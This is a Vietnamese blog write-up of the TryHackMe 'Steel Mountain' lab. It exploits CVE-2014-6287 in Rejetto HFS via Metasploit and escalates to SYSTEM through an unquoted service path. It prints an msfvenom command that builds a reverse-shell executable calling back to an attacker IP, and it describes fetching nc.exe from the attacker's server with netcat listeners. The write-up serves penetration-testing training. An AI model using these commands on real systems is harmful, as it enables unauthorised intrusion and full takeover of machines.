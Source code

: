 ---
title: "Steel Mountain"
description: "Hack vào máy Windows theo chủ đề của Mr. Robot."
publishDate: 2025-09-10
tags: 
- TryHackMe
- CTF - Capture The Flag
- Offensive Pentesting
- Privilege Escalation
draft: false
language: 'Việt Nam'
heroImage: { src: './thumbnail.jpeg', color: '#237b9f' }
---


<Aside type="note" title='Thông tin về Steel Mountain'>
Trong lab này sẽ thực hiện thu thập thông tin máy Windows, chiếm quyền truy cập ban đầu với [_**Metasploit**_](https://www.metasploit.com/), sử dụng **Power Shell** để tiếp tục thu thập thông tin của máy và leo thang đặc quyền lên _**Administrator**_.

[Link lab](https://tryhackme.com/room/steelmountain)
</Aside>

## Truy cập ban đầu

Khi truy cập mục tiêu, giao diện trang web chứa hình ảnh của `Employee of the month`.

![img](imgs/1.png)

Mở `Page Source`, theo tên ảnh thì người này tên `Bill Harper`

![img](imgs/2.png)

Tiếp theo, mình thực hiện scan các port của mục tiêu này và phát hiện thêm một port chạy `HttpFileServer httpd 2.3 (8080)`

```shell
PORT      STATE SERVICE            VERSION
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
```

Tìm kiếm một chút thì `HFS` còn được gọi là `Rejetto HTTP File Server`, đây là một ứng dụng mã nguồn mở biến máy tính trở thành một `File Server` dựa trên web để chia sẻ file mà không cần một kết nối mạng lâu dài hoặc cài đặt thêm phần mềm nào trên thiết bị nhận.

Và ở phiên bản `Rejetto 2.3` này tồn tại một lỗ hổng được báo cáo trong `CVE-2014-6287` dẫn tới kiểm soát quyền truy cập.

Sử dụng công cụ `Metasploit` có module `exploit/windows/http/rejetto_hfs_exec` hỗ trợ khai thác lỗ hổng này.

![img](imgs/3.png)

Các thông số của module này như sau:

![img](imgs/4.png)

Sau khi khai thác thành công, mình chiếm được quyền truy cập vào người dùng `bill`.

![img](imgs/5.png)

Flag sẽ được đặt tại thư mục `Desktop` của người dùng này.

![img](imgs/6.png)

## Leo thang đặc quyền

Để thu thập thông tin về máy này, mình upload một powershell script có tên là [_PowerUp_](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1), đây là file với mục đích đánh giá máy Windows và xác định xem có điều gì bất thường hay không.

![img](imgs/7.png)

Khi thực thi script có service tên `AdvancedSystemCareService9` là `Unquoted Service Paths`, có nghĩa là đường dẫn có khoảng trắng nhưng không có dấu ngoặc kép.

Tại thư mục `C:\` người dùng bình thường có quyền ghi file và `CanRestart` được đặt thành `true` có nghĩa là có thể khởi động lại ứng dụng này thay vì phải khởi động lại máy.

![img](imgs/8.png)

Từ thông tin thu thập được, mình có thể đổi ứng dụng đã được cấu hình thành ứng dụng độc hại của mình để có thể leo thang đặc quyền lên `SYSTEM`.

<Aside type="tip" title='Phương thức tấn công'>
Nếu đường dẫn có khoảng trắng mà không có dấu ngoặc kép.

Ở đây là `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`.

Thì Windows sẽ thực hiện thêm `.exe` vào các khoảng trắng và thực thi nó theo từng phần:

1. `C:\Program.exe`
2. `C:\Program Files.exe`
3. `C:\Program Files (x86)\IObit\Advanced.exe`

Và cuối cùng là `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`

Khi này mình tạo một file độc hại tên `Advanced.exe` đặt trong thư mục `C:\Program Files (x86)\IObit\` để khi Windows đến bước 3 sẽ tiến hành thực thi file này.
</Aside>

Trong công cụ đi kèm của `Metasploit` - `msfvenom` mình sẽ tạo một ứng dụng tên `Advanced.exe` mở một `reverse shell` về máy mình.

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.67.204 LPORT=7304 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

Sau đó, mình chuyển file này vào thư mục `C:\Program Files (x86)\IObit`.

![img](imgs/9.png)

Mở một session khác cho `msfconsole` sử dụng module `exploit/multi/handler` với payload `windows/shell_reverse_tcp` để tạo 1 listener lắng nghe khi máy bị tấn công kết nối vào.

![img](imgs/10.png)

Cuối cùng mình khởi động lại dịch vụ `AdvancedSystemCareService9`, khi đó máy này sẽ chạy ứng dụng độc hại mà mình đã tạo, kết nối tới listener và mình đã leo thang đặc quyền lên `SYSTEM`.

![img](imgs/11.png)

Có được quyền `SYSTEM` đồng nghĩa mình có toàn quyền trong hệ thống này và mình tìm thấy flag của root tại thư mục `Desktop` của `Administrator`.

![img](imgs/12.png)

## Truy cập và leo thang đặc quyền không dùng Metasploit

Thay vì sử dụng công cụ Metasploit để khai thác tự động, có thể khai thác bằng cách khác.

Tại đây mình sử dụng file python khai thác trên [ExploitDB](https://www.exploit-db.com/exploits/39161).

Một số yêu cầu của file để nó có thể khai thác thành công như sau:

- Host 1 web server bên trong có file [nc.exe](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe).
- Sẽ phải chạy file nhiều lần và lần đầu là để chuyển `nc.exe` sang máy bị tấn công.

Như vậy, mình đã mở một `Simple HTTP Server` bằng python3 và khi thực thi file nó đã tải `nc.exe` từ máy mình sang máy có lỗ hổng.

![img](imgs/14.png)

Đồng thời mình cũng sẽ mở một `netcat listener` ở port `7304` để khi khai thác thành công nó sẽ kết nối vào đây.

![img](imgs/14.png)

Mình đã có quyền truy cập vào `Bill` như cũ. 

Tiếp theo, để thực hiện leo thang đặc quyền lên `SYSTEM` mình thực hiện thu thập thông tin bằng công cụ `winPEAS`.

![img](imgs/15.png)

Công cụ này đã phát hiện lỗ hổng tại service `AdvancedSystemCareService9` cho phép `WriteData/CreateFiles`.

![img](imgs/16.png)

Từ đây các bước thực hiện như cũ, sử dụng công cụ `msfvenom` để tạo phần mềm độc hại kết nối tới listener.

Listener mình sẽ sử dụng `netcat` với các tùy chọn `-lvnp` thay vì dùng module của `Metasploit` như trước và mình đã leo thang đặc quyền lên `SYSTEM`.

![img](imgs/17.png)

